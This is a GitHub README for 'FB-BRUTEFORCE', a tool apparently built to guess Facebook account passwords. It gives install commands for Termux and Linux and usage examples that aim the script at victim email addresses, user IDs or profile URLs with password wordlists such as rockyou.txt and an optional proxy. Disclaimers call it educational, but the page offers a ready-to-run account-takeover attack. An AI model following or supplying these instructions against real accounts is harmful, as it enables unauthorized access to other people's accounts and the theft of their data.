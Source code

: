 ## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

## Screenshots:
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/fb-bruteforce.png)
***
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/FB-ATTACK.png)
***

## INSTALLATION:
   #### ➡️use the following commands for Termux & Linux:

```shell script
apt update && apt upgrade
```

```shell script
apt-get install python-pip
```

```shell script
pip install colorama termcolor requests
```

```shell script
pip nistall mechanize
```

```shell script
git clone https://github.com/WHITEDH4CKER/FB-BRUTEFORCE
```

```shell script
cd FB-BRUTEFORCE
```

```shell script
python FB-ATTACK.py
```
## Usage
   ```
       Usage: python FB-ATTACK.py [OPTIONS...]
Examples:
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python FB-ATTACK.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python FB-ATTACK.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -s 1234567
     |--------
     | python FB-ATTACK.py -g https://www.facebook.com/Victim_Profile
     |--------
```
## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

### ➡️ [Instagram](https://Instagram.com/WHITEDH4CKER)
### ➡️ [Telegram](https://t.me/WHITEDH4CKER)
### ➡️ [Telegram group](https://t.me/WHITEDR00M)

### <p align="center">```And Thanks for choosing this tool Support Us !``` 
  
 ## <p align="center">```WHITEDH4CKER [DEV_SANJAY]```

<p align="right"> Last FAQ Update: 29.12.2023 </p>
